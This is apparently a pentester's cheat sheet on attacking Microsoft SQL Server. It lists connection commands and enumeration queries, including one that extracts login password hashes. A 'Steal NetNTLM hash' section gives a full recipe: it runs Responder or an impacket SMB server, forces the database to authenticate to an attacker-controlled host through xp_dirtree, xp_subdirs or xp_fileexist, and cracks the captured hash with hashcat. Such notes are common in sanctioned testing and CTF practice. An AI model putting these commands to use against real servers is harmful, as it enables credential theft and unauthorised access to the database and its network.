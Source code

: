 # MSSQL

## Connection
```sh
# mssqlclient
impacket-mssqlclient <domain>/<username>:<password>@<ip>

# sqlcmd
sqlcmd -S <IP> -U <username> -P <password> -d <database_name> -Q <query>
```

## Enumeration
```sql
-- Get version
SELECT @@version;

-- Get username
SELECT user_name();

-- Get databases
SELECT name FROM master.dbo.sysdatabases;
SELECT * FROM information_schema.schemata;

-- Tables from DB
SELECT * FROM information_schema.tables;

-- Columns from table
SELECT * FROM information_schema.columns;

-- List users
SELECT sp.name AS LOGIN, sp.type_desc AS LOGIN_TYPE, sl.password_hash, sp.create_date, sp.modify_date, CASE WHEN sp.is_disabled = 1 THEN "Disabled" ELSE "Enabled" END AS STATUS FROM sys.server_principals sp LEFT JOIN sys.sql_logins sl ON sp.principal_id = sl.principal_id WHERE sp.type NOT IN ("G", "R") ORDER BY sp.name;

-- Users and roles
SELECT * FROM sys.database_principals;
```

## Tricks / Attacks
### Steal NetNTLM hash
When executing a command on the SQL server which requests resources from the attacker's SMB server, the hash will be captured on that server.
1. Start an **SMB server** to capture hash upon request *(local)*.
    ```sh
    # Responder.py
    sudo python3 Responder.py -I tun0

    # impacket-smbserver
    sudo impacket-smbserver share ./ -smb2support
    ```
2. Run one of the following commands *(remote)*.
    ```sql
    xp_dirtree "\\<IP>\any\thing\"
    exec master.dbo.xp_dirtree "\\<IP>\anything\"
    EXEC master..xp_subdirs "\\<IP>\anything\"
    EXEC master..xp_fileexist "\\<IP>\anything\"
    ```
#### Cracking the hash
```sh
hashcat -m 5600 <hash_file> <wordlist>
```